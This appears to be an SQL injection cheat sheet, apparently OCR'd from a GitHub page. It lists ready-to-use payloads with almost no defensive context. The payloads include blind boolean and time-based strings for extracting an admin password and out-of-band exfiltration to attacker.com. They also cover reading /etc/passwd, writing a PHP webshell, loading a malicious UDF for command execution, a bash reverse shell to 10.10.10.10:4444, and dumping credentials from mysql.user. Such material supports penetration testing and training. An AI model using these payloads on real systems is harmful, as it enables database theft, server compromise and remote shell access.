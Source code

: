 ### Blind SQLi

Extracting data through boolean/time responses:

```sql
# Boolean based
' AND (SELECT 'x' FROM users WHERE username='admin' AND LENGTH(password)>5)='x'--
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'--

# Time based
' AND IF(LENGTH(database())>1,SLEEP(5),'false')--
' WAITFOR DELAY '0:0:5'--
' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE LENGTH(table_name)=6 AND table_schema=database())=1 AND SLEEP(5)--
```

### Out-of-band SQLi

Extracting data through external channels:

```sql
# DNS exfiltration (MySQL)
' UNION SELECT LOAD_FILE(CONCAT('\\\\',version(),'.attacker.com\\abc'))-- -

# HTTP request (MSSQL)
'; exec master..xp_dirtree '//attacker.com/'; --
```

### Database Specific Techniques

#### MySQL

```sql
# File operations
SELECT LOAD_FILE('/etc/passwd');          # Reads server files into query results
SELECT '<?php system($_GET[0]); ?>' INTO OUTFILE '/var/www/shell.php';  # Writes webshell to server

# System information gathering
SELECT @@version;        # Database version
SELECT @@datadir;        # Data directory location
SELECT @@hostname;       # Server hostname
SELECT @@plugin_dir;     # Plugin directory location
SELECT USER();          # Current database user
SELECT CURRENT_USER();  # Current system user

# User defined functions (UDF) for command execution
# First create evil UDF library
SELECT binary 0x[hex of udf library] INTO DUMPFILE '/usr/lib/mysql/plugin/evil.so';
# Then create function
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'evil.so';
# Execute commands
SELECT sys_exec('whoami');
SELECT sys_exec('bash -i >& /dev/tcp/10.10.10.10/4444 0>&1');

# Privilege escalation
SELECT grantee, privilege_type FROM information_schema.user_privileges;  # List user privileges
SELECT host, user, authentication_string FROM mysql.user;               # List user credentials
```

